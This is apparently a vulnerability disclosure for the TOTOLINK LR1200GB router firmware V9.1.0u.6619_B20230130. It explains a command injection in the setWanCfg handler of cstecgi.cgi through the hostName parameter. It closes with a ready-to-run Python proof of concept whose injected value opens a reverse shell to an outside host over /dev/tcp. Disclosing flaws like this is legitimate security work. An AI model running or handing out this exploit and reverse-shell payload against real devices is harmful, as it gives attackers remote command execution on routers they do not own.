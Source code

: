# TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setWanCfg` handler function of  `cstecgi.cgi`. When the value of `proto` parameter !=6,
the value of the `hostName` parameter will be spliced ​​into the `echo '%s' > /pro....` and be excuted by `doSystem` function, which allows an attacker to excute any command.

`proto` parameter:
![code2](./code2.png)
`hostName` parameter:
![code1](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = {
    "proto": "9",
    "hostName": "';sh -i >& /dev/tcp/192.168.109.129/9001 0>&1;#",
    "switchOpMode": "1",
    "topicurl": "setWanCfg",
    "token": "00000000000000000000000000000000"
}

requests.request("POST", url, data=payload)
```
![postman](postman.png)